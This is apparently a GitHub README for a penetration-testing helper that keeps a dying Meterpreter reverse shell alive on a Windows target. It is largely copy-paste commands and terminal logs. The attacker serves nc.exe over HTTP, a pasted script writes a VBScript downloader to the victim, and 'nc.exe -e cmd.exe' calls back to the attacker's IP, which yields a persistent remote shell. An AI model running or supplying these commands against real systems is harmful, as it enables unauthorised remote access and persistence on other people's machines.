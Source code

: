 # WindowsMeterpreterSessionDied
Some exploits are unstable in nature and only allow for a very short shell command window. Often times the reason the shell dies after only 30 secs is because underlying Windows OS doesnt recieve the confirmation of the started service. 
One way to get around this 30 second reverse shell limitation is to create a child process in the parent process. After the parent reverse shell process dies the child process will live on.
These scripts can help extend your remote shell session by quickly spawning a new reverse shell in a child process or new thread.
The txt files in this project with the word "Thread" in them spawn a new thread in a new CMD window.
This solution can be leveraged on any reverse shell that dies prematurely (Metepreter, NC, NCat etc) as the commands can be easily copied and pasted in a single action. 

NOTE:  Sometimes the reverse shell line will run before the NC.exe file has fully downloaded, just try running the nc.exe command again or waiting until running the final command until the nc.exe file has fully downloaded.

Here is an example of a Metepreter Exploit with a short lived reverse shell:

~~~~
[*] Started reverse TCP handler on 10.11.0.60:4444 
[*] Transmitting intermediate stager for over-sized stage...(216 bytes)
[*] Sending stage (179267 bytes) to 1.1.1.2
[*] Meterpreter session 1 opened (1.1.1.2:4444 -> 1.1.1.1:1996) at 2018-03-02 17:06:07 -0700

meterpreter > shell
Process 2960 created.
Channel 1 created.
Microsoft Windows [Version 5.2.3790]
(C) Copyright 1985-2003 Microsoft Corp.

C:\WINDOWS\system32>cd\usrs
cd\usrs
The system cannot find the path specified.

C:\WINDOWS\system32>cd \
cd \

C:\>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 8123B-EF81

 Directory of C:\

12/24/2009  05:03 AM                 0 AUTOEXEC.BAT
12/24/2009  05:03 AM                 0 CONFIG.SYS
09/19/2011  08:26 AM    <DIR>          Documents and Settings
04/20/2016  08:25 PM    <DIR>          WINDOWS
12/24/2009  05:04 AM    <DIR>          wmpub
               2 File(s)              0 bytes
               3 Dir(s)   5,666,758,656 bytes free

C:\>cd 
[*] 1.1.1.1 - Meterpreter session 1 closed.  Reason: Died
~~~~

How do we spawn a new reverse shell and extend our command session?

This solution uses Netcat for Windows to create the second shell session.
You will need to have the nc.exe file stored in a folder on your Kali Linux machine and then you can create a simple python web server to serve it up:
`python -m SimpleHTTPServer 80`

~~~~
root@kali:~/Documents/WindowsPRIVZ# python -m SimpleHTTPServer 80
Serving HTTP on 0.0.0.0 port 80 ...
1.1.1.1 - - [03/Mar/2018 08:29:24] "GET /nc.exe HTTP/1.0" 200 -
~~~~

Next you will want to create your local netcat listener.  I like to use port 443 just in case there are some firewall rules at play on the target machine.
`nc -nlvp 443`

~~~~
root@kali:~# nc -nlvp 443
listening on [any] 443 ...
~~~~

Finally, you will want to select the correct script for the target OS and doctor it to use the correct IP Address for your kali machine.
Edit lines 19 and 21 and replace 1.1.1.1 with the IP Address of your Kali Linux machine.

Now kick off a new short lived reverse shell and once you are at the command prompt copy and paste the entire script (all the lines at once) into the shell.

~~~~
[*] Started reverse TCP handler on 1.1.1.1:4444 
[*] Transmitting intermediate stager for over-sized stage...(216 bytes)
[*] Sending stage (179267 bytes) to 1.1.1.2
[*] Meterpreter session 7 opened (1.1.1.1:4444 -> 1.1.1.2:1031) at 2018-03-03 09:17:07 -0700

meterpreter > shell
Microsoft Windows [Version 5.2.3790]
(C) Copyright 1985-2003 Microsoft Corp.

C:\WINDOWS\system32>cd\Documents and Settings\All Users\Documents\
timeout 1
echo dim xHttp: Set xHttp = createobject("Microsoft.XMLHTTP")  > dl.vbs
timeout 1
echo dim bStrm: Set bStrm = createobject("Adodb.Stream")  >> dl.vbs
timeout 1
echo xHttp.Open "GET", WScript.Arguments(0), False  >> dl.vbs
timeout 1
echo xHttp.Send >> dl.vbs
timeout 1
echo bStrm.type = 1 >> dl.vbs
timeout 1
echo bStrm.open >> dl.vbs
timeout 1
echo bStrm.write xHttp.responseBody >> dl.vbs
timeout 1
echo bStrm.savetofile WScript.Arguments(1), 2 >> dl.vbs
timeout 1
dl.vbs "http://1.1.1.1/nc.exe" "c:\Documents and Settings\All Users\Documents\nc.exe"
timeout 1
nc.exe -nv 1.1.1.1 443 -e cmd.exe
cd\Documents and Settings\All Users\Documents\

C:\Documents and Settings\All Users\Documents>timeout 1
ERROR: Input redirection is not supported, exiting the process immediately.

C:\Documents and Settings\All Users\Documents>echo dim xHttp: Set xHttp = createobject("Microsoft.XMLHTTP")  > dl.vbs

C:\Documents and Settings\All Users\Documents>timeout 1
ERROR: Input redirection is not supported, exiting the process immediately.

C:\Documents and Settings\All Users\Documents>echo dim bStrm: Set bStrm = createobject("Adodb.Stream")  >> dl.vbs

C:\Documents and Settings\All Users\Documents>timeout 1
ERROR: Input redirection is not supported, exiting the process immediately.

C:\Documents and Settings\All Users\Documents>echo xHttp.Open "GET", WScript.Arguments(0), False  >> dl.vbs

C:\Documents and Settings\All Users\Documents>timeout 1
ERROR: Input redirection is not supported, exiting the process immediately.

C:\Documents and Settings\All Users\Documents>echo xHttp.Send >> dl.vbs

C:\Documents and Settings\All Users\Documents>timeout 1
ERROR: Input redirection is not supported, exiting the process immediately.

C:\Documents and Settings\All Users\Documents>echo bStrm.type = 1 >> dl.vbs

C:\Documents and Settings\All Users\Documents>timeout 1
ERROR: Input redirection is not supported, exiting the process immediately.

C:\Documents and Settings\All Users\Documents>echo bStrm.open >> dl.vbs

C:\Documents and Settings\All Users\Documents>timeout 1
ERROR: Input redirection is not supported, exiting the process immediately.

C:\Documents and Settings\All Users\Documents>echo bStrm.write xHttp.responseBody >> dl.vbs

C:\Documents and Settings\All Users\Documents>timeout 1
ERROR: Input redirection is not supported, exiting the process immediately.

C:\Documents and Settings\All Users\Documents>echo bStrm.savetofile WScript.Arguments(1), 2 >> dl.vbs

C:\Documents and Settings\All Users\Documents>timeout 1
ERROR: Input redirection is not supported, exiting the process immediately.

C:\Documents and Settings\All Users\Documents>dl.vbs "http://1.1.1.1/nc.exe" "c:\Documents and Settings\All Users\Documents\nc.exe"

C:\Documents and Settings\All Users\Documents>timeout 1
ERROR: Input redirection is not supported, exiting the process immediately.

C:\Documents and Settings\All Users\Documents>nc.exe -nv 1.1.1.1 443 -e cmd.exe
nc.exe -nv 1.1.1.1 443 -e cmd.exe
(UNKNOWN) [1.1.1.1] 443 (?) open

[*] 1.1.1.2 - Meterpreter session 7 closed.  Reason: Die

~~~~

Although the Metepreter sessions has terminated or timed out, we still have our new remote session running in the background!

~~~~
root@kali:~# nc -nlvp 443
listening on [any] 443 ...
connect to [1.1.1.1] from (UNKNOWN) [1.1.1.2] 1036
Microsoft Windows [Version 5.2.3790]
(C) Copyright 1985-2003 Microsoft Corp.


C:\Documents and Settings\All Users\Documents>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 801B-EF81

 Directory of C:\Documents and Settings\All Users\Documents

03/03/2018  08:17 AM    <DIR>          .
03/03/2018  08:17 AM    <DIR>          ..
03/03/2018  08:17 AM               283 dl.vbs
12/24/2009  05:02 AM    <DIR>          My Music
03/03/2018  08:17 AM            38,616 nc.exe
               2 File(s)         38,899 bytes
               3 Dir(s)   5,666,869,248 bytes free

C:\Documents and Settings\All Users\Documents>
~~~~

